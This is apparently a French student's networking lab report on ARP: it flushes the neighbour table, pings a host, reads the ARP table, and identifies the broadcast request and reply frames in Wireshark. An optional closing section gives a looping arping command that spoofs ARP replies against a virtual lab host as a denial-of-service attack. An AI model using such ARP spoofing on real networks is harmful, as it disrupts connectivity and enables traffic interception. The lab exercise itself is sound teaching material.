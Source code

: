 ```
$ sudo ip n flush all
$ arp -n
$ 
$
```
```
$ sudo ip n flush all ; ping 10.42.0.2 -c 1 ; arp -n
PING 10.42.0.2 (10.42.0.2) 56(84) bytes of data.
64 bytes from 10.42.0.2: icmp_seq=1 ttl=64 time=0.860 ms

--- 10.42.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.860/0.860/0.860/0.000 ms
Address                  HWtype  HWaddress           Flags Mask            Iface
10.42.0.2                ether   a0:ce:c8:ee:d4:14   C                     enp8s0
```

J'ai mit les 3 commandes à la suite, car en le faisant à la main, le routeur Ynov réapparaissait dans la table.

> Les échanges ARP sont effectuées automatiquement par votre machine lorsqu'elle essaie de joindre une machine sur le même LAN qu'elle. Si la MAC du destinataire n'est pas déjà dans la table ARP, alors un échange ARP sera déclenché.

🌞 **Wireshark it**

Dans le terminal:
```
$ sudo ip n flush all ; ping 10.42.0.2
```

-Trame 1:

    - Adresse source : 08:97:98:d4:fb:50  (PC 1)
    - Adresse dest   : ff:ff:ff:ff:ff:ff  (BROADCAST)

-Trame 2:

    -Adresse source : a0:ce:c8:ee:d4:14  (PC 2)
    -Adresse dest   : 08:97:98:d4:fb:50  (PC 1)

🦈 **PCAP qui contient les trames ARP**

[le pcap du arp](./pcap/arp.pcapng)

> L'échange ARP est constitué de deux trames : un ARP broadcast et un ARP reply.

# II.5 Interlude hackerzz

(optionnel)

**En utilisant arping**
DOS attaque

Sur Eve (192.168.56.9) :
```
$ while :; do sleep 1;  sudo arping -c 1 -A -s 192.168.56.10 -I vboxnet0 192.168.56.8; done
```
``-A`` sert à utiliser arping en mode ANSWER only, donc des paquets "reply" seront envoyés toutes les 1 secondes
